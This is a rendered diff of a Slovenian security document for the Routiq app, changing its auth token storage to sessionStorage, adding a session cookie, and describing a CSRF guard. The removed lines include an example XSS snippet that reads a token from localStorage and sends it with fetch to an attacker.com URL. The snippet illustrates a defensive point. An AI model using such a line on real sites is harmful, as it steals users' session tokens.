

Before and after one commit to Anchevskiii/Routiq, a Markdown page: docs/security.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(auth): document sessionStorage, session cookies, and CSRF guard changes

````diff
--- a/docs/security.md
+++ b/docs/security.md
@@ -54,6 +54,8 @@ sequenceDiagram
 
 ---
 
-## 2. Shranjevanje tokenov
+## 2. Shranjevanje tokenov in varnost sej (Session Management)
+
+Routiq uporablja hibridni pristop za shranjevanje sej, ki zagotavlja visoko varnost pred napadi XSS (Cross-Site Scripting) in hkrati preprečuje napade CSRF (Cross-Site Request Forgery).
 
 ```mermaid
@@ -69,33 +69,17 @@ graph LR
 ```
 
-### Zakaj NE `localStorage`?
+### Hramba sej na klientski strani (`sessionStorage`)
 
-`localStorage` je dostopen kateremu koli JavaScript skriptu v isti domeni. XSS napad (injicirana JS koda) bi zlahka ukradel token:
+Namesto privzetega shranjevanja v `localStorage` (ki ostane trajno zapisan na disku brskalnika in je izpostavljen XSS kraji), Routiq konfigurira Supabase klijenta z uporabo **`sessionStorage`**:
+* **Naravni življenjski cikel**: Podatki o seji se samodejno izbrišejo iz brskalnika takoj, ko uporabnik zapre zavihek ali okno brskalnika.
+* **XSS zaščita**: Sejni žetoni niso trajno shranjeni v brskalniku, kar znatno zmanjša časovno okno za zlorabo žetonov v primeru napada XSS.
 
-```javascript
-// Napadalec s XSS dostopom
-const stolen = localStorage.getItem('access_token')
-fetch('https://attacker.com/steal?token=' + stolen)
-```
+### Sinhronizacija s sejnimi piškotki (`sb-access-token`)
 
-### Zakaj memory (React Context)?
-
-Token v RAM-u ni dostopen zunanjemu JS. Edina slabost: token se izgubi ob osvežitvi strani — to Supabase SDK avtomatsko reši z `refreshSession()` ob inicializaciji.
-
-```typescript
-// AuthContext.tsx — primer
-const [user, setUser] = useState<User | null>(null)
-const accessTokenRef = useRef<string | null>(null) // NE useState — ne renderira
-
-useEffect(() => {
-  supabase.auth.onAuthStateChange((event, session) => {
-    if (session) {
-      accessTokenRef.current = session.access_token
-      setUser(session.user)
-    }
-  })
-}, [])
-```
+Za primere klientskih zahtev, kjer ni mogoče ročno nastaviti `Authorization` záhlavja (npr. neposredni prenos datotek preko brskalnika, kot je izvoz koledarja `.ics` preko `GET` zahtevkov), frontend sinhronizira žeton v piškotek:
+* **Sejni piškotek**: Piškotek `sb-access-token` nima določenega atributa `Max-Age` ali `Expires`, kar pomeni, da ga brskalnik obravnava kot sejni piškotek in ga uniči takoj ob zaprtju brskalnika.
+* **Varnostne nastavitve**: Nastavljen je z atributi `SameSite=Lax` in `Secure` za preprečevanje zlorabe v nezavarovanih povezavah.
+* **Brisanje ob odjavi**: Ob odjavi (`SIGNED_OUT` dogodek in ročni izhod) se piškotek eksplicitno izbriše s pretečenim datumom (`expires=Thu, 01 Jan 1970 00:00:00 GMT`).
 
 ---
 
@@ -104,10 +88,12 @@ useEffect(() => {
 ### JwtAuthGuard (globalen)
 
 Vsak request gre skozi `JwtAuthGuard` ki:
-1. Izvleče Bearer token iz `Authorization` headerja
-2. Pokliče `supabase.auth.getUser(token)` za verifikacijo
-3. Pokliče `upsertUser()` za sinhronizacijo lokalnih podatkov
-4. Priloži `user` objekt na `request` objekt
+1. Izvleče Bearer token iz `Authorization` headerja (primarni vir).
+2. Če Bearer token ni prisoten, poskusi izvleči token iz piškotka `sb-access-token` (fallback).
+   * **CSRF zaščita (Harden)**: Zaščita pred CSRF napadi je implementirana tako, da se token iz piškotka prebere **samo za varne HTTP metode (`GET`, `HEAD`, `OPTIONS`)**. Za vse mutacijske zahteve (POST, PUT, DELETE, PATCH) je obvezno `Authorization: Bearer` záhlavje, s čimer popolnoma preprečimo CSRF napade.
+3. Pokliče `supabase.auth.getUser(token)` za verifikacijo.
+4. Pokliče `upsertUser()` za sinhronizacijo lokalnih podatkov.
+5. Priloži `user` objekt na `request` objekt.
 
 ```typescript
 // Endpoints ki ne zahtevajo auth:
````
Also changed, not shown: other parts of docs/security.md (+6 -8 lines), docs/data-flows.md (+17 -13 lines).
